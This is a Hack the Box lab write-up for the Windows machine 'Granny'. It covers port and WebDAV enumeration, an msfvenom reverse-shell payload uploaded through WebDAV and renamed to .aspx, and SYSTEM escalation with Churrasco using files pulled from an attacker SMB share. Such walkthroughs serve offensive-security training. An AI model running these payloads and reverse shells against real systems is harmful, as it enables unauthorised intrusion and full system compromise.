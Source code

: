 ```yaml
---
title: Hack the Box - Granny
date: 2022-08-08 21:40:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Granny](/assets/HackTheBox/Granny/Granny.png)

# Granny Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.15|Granny|Windows|

## Path to Exploitation


# Granny Enumeration

## Full Port Scan

```bash
nmap 10.10.10.15 -p- -oA Granny/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.15 -p 80 -sC -sV -oA Granny/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 6.0|

# Website

![Site Landing Page](/assets/HackTheBox/Granny/site-page.png "Site Landing Page")

## Nikto Scan

```shell
$ nikto -h http://10.10.10.15
```

Results:
```cmd
---[SNIP]---
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                   + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server. 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.                                                  
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (UNLOCK PROPFIND PROPPATCH COPY MKCOL SEARCH LOCK listed as allowed)
---[SNIP]---
```

We see the PUT method is allowed and that WebDAV is enabled. We can use davtest to check if we can upload files to the site.

## DavTest

```shell
$ davtest -u http://10.10.10.15
```

Results:
```cmd
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.php
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.cfm
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.html
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.jhtml
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.pl
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.jsp
PUT File: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.txt
Executes: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.html
Executes: http://10.10.10.15/DavTestDir_PomonoNIS7dOMwx/davtest_PomonoNIS7dOMwx.txt
```

We see that we can upload/execute html and txt files.

## Shell on Host

We can use this information to create our shell payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.html
```

We can then use Cadaver to upload the payload
```shell
$ cadaver http://10.10.10.15
```

But before executing, we need to trick the server into executing our .aspx payload. We need to move our .html file to a .aspx file on the server.

![Cadaver Tool](/assets/HackTheBox/Granny/cadaver.png "Using Cadaver")

After browsing to our payload file, we see we have caught a reverse shell as the network service account

![Intial Foothold](/assets/HackTheBox/Granny/initial-foothold.png "Initial Foothold")

# Privilege Escalation

Once on the machine we enumerate our user's privileges

```shell
C:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Granny/user-privs.png "User Privileges")

We see the seImpersonatePrivilege is enabled. We need to check the operating system version to determine which exploit we can use. 

```shell
C:\> systeminfo
```

![System Info](/assets/HackTheBox/Granny/sys-info.png "System Info")

We see the OS version is Microsoft Server 2003, we can
use the Churrsaco exploit located [here](https://github.com/Re4son/Churrasco)

## Getting SYSTEM

Setup and SMB Server on our Kali machine 
```shell
$ sudo impacket-smbserver share .
```

Upload the file using the SMB server
```shell
C:\> copy \\10.10.14.10\share\churrasco.exe
```

Test the exploit:
```shell
C:\> churrasco.exe -d "whoami"
```
![whoami as SYSTEM](/assets/HackTheBox/Granny/system-whoami.png "whoami as SYSTEM")

We see our command executed as SYSTEM

We can now use the exploit to launch a reverse shell payload

Create the payload:

```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the file to the machine:

```shell
C:\> copy \\10.10.14.10\share\exil.exe
```

Execute the payload:

```shell
C:\> churrasco.exe -d "C:\temp\evil.exe"
```

![Exploit](/assets/HackTheBox/Granny/exploit.png "Launch the Exploit")

Checking our listener we see we have a shell running as SYSTEM

![Getting SYSTEM](/assets/HackTheBox/Granny/priv-esc.png "Getting SYSTEM")